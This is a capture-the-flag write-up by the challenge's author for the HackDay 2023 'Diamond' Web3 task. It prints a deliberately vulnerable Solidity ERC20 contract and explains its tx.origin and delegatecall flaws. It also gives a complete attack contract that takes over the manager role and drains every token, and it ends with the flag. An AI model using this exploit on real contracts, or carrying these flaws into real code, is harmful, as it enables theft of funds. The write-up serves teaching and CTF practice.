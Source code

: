 ```yaml
---
title: Diamond
description: Exploitation of tx.origin and delegatecall to steal ERC20 tokens
summary: Exploitation of tx.origin and delegatecall to steal ERC20 tokens
date: 2023-03-24
tags:
- Web3
ctf:
- HackDay 2023
draft: false
---
```


**Note**: this is the write up of a challenge I created, as a challenge creator for the HackDay 2023 qualifications. The challenge source code can be found in the [CTF repository](https://github.com/ChallengeHackDay/2023-qualif).

> You've got the documents you need. \
> The last thing you need to do before you leave is to mess with the enemy blockchain to paralyze the outpost completely and be able to sneak away in the middle of the general panic. \
> Grab all their cash!

We're given the following contract:

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

// The following contract is vulnerable on purpose: DO NOT COPY AND USE IT ON MAINNET!
contract Diamond is ERC20("Diamond", "DMD") {
    address private manager;
    address private extension;
    mapping(address => bool) private redeemers;
    uint256 private bonusRedeemsLeft = 5;
    uint256 private constant diamond = 10 ** 18; // 18 is the default decimals number

    constructor() {
        manager = msg.sender;
        _mint(address(this), 1000 * diamond);
    }

    function recovery(address newManager) public {
        require(tx.origin == manager);
        manager = newManager;
    }

    function getFirstRedeemerBonus() public {
        require(bonusRedeemsLeft > 0);
        require(redeemers[msg.sender] == false);
        bonusRedeemsLeft -= 1;
        redeemers[msg.sender] = true;
        bool success = this.transfer(msg.sender, 5 * diamond);
        require(success);
    }

    function setExtension(address newExtension) public {
        require(msg.sender == manager);
        extension = newExtension;
    }

    function callExtension(bytes memory _data) public {
        (bool success, ) = extension.delegatecall(_data);
        require(success);
    }
}
```

## Overview of the contract

The contract handles an ERC20 token named Diamond or DMD. When created, it gives 1000 DMD to itself. It exposed a `getFirstRedeemerBonus` function to allow anyone to get 5 DMD to begin with, for a maximum of 5 different accounts. Because of this limitation, we can't use this function to empty the initial balance of the contract. \
The important part is the `setExtension`, `callExtension` and `recovery` functions. These functions can only be used by the manager, which is the address of the deployer of the contract, and allow to respectively add an address as an extension, call the extension and change the manager.

## Vulnerabilities

There are two different vulnerabilities in the contract that will allow us to reach our goal:

- the usage of `tx.origin` instead of `msg.sender`
- the delegatecall to an arbitrary address

### tx.origin

The usage of `tx.origin` for authorization is a [big mistake](https://swcregistry.io/docs/SWC-115). If we manage to make the current manager send a transaction to a contract we control, the contract can in turn call the `recovery` function and the `require(tx.origin == manager)` check will be a success.

If you did pay attention to the faucet page, something very important was written...

![](faucet.png)

> Useful note: this faucet is also the account used to deploy the contracts.

Now we have our attack path to become the manager! Just create a contract with a fallback function that calls `recovery` with the address we want as the new manager, and ask the faucet to give some money to our attack contract to trigger the execution of the fallback. That's it!

### delegatecall

A delegatecall isn't inherently vulnerable, but when the delegatecall is made to an untrusted address, the callee has [full control](https://swcregistry.io/docs/SWC-112) over the caller contract storage and balance.

Now that we're manager, we can use `setExtension` to update the extension address with our attack contract, and finally use `callExtension` to execute whatever function we want of our attack contract in the context of the Diamond one.

Because our contract will be called via a delegatecall, it will access the Diamond contract storage and functions instead of his own, just as if the code executed in our contract was executed in the Diamond contract.

To steal all the ERC20 tokens, all we have to do now is to call the ERC20 `transfer` function to move all the tokens from the Diamond contract's balance to any other one.

## The exploitation contract

If we put everything together in one single attack contract, we get the following.

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "../contracts/Diamond.sol";

contract DiamondAttack {
    Diamond diamond;

    constructor(address _diamond) {
        diamond = Diamond(_diamond);
    }

    fallback() external payable {
        diamond.recovery(address(this));
        diamond.setExtension(address(this));
        diamond.callExtension(abi.encodeWithSignature("steal()"));
    }

    // no need to define the code of these functions because the fact that they are called through a delegatecall will make them execute the functions of the Diamond contract instead
    function transfer(address to, uint256 amount) public returns (bool) {}
    function balanceOf(address account) public returns (uint256) {}

    function steal() public {
        // because this function will be called through a delegate call, the value of address(this) will be the address of the Diamond contract and not of our Attack contract
        bool success = this.transfer(<any address you want>, this.balanceOf(address(this)));
        require(success);
    }
}
```

We just need to create it with the address of the Diamond contract we want to attack, and ask the faucet to give it money to trigger the fallback. The contract will become the new manager, register itself as the extension, and call the `steal` function using the delegatecall so that the function is executed in the context of the Diamond contract and move all the tokens owned by the contract to another address.

Once done, the Diamond contract doesn't have anything left in its balance, as expected.

![](balance.png)

We've reached our goal! We can now get the flag by clicking the check button on the challenge page.

![](flag.png)

Flag: `HACKDAY{4ll_d14m0nds_succ3ssfully_st0l3n}`
